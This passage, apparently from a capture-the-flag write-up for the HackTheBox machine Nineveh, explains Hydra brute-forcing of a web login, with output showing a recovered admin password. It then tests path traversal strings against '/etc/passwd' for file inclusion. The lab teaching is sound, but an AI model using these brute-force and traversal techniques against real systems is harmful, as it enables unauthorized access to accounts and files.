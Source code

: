 * **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** specifies an HTTP POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 12:14:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2421.00 tries/min, 2421 tries in 00:01h, 14341978 to do in 98:44h, 16 active
[VERBOSE] Page redirected to http://nineveh.htb/department/manage.php
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
[STATUS] attack finished for nineveh.htb (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 12:16:12
```

It found the valid password! Log into the application using the credentials we found.

![](https://miro.medium.com/max/1100/1*uegt4ohJV85GLwtX1hBBSg.png)

Visit the _Notes_ tab. We get the following text.

![](https://miro.medium.com/max/962/1*0gGdIqE4BzhufdOfGf5t9A.png)

None of it makes much sense at this point. They do mention a secret folder. Maybe we’ll find that while enumerating port 443. One thing to notice is the URL that generates the page looks like a file path.

![](https://miro.medium.com/max/621/1*bU60nwjic6gy9R15Ov224A.png)

When you see a file path, the first thing you should try is an LFI. I tried and it didn’t exactly work. When I try the following string

```text
../../../../../../../etc/passwd
```

I get a “No Note is selected” message. However, when I try the following string

```text
files/ninevehNotes/../../../../etc/passwd
```

I get a warning message.

![](https://miro.medium.com/max/945/1*U1j8GxuGYRFJqHnkBnqkcg.png)

If I remove “ninevehNotes” from the URL
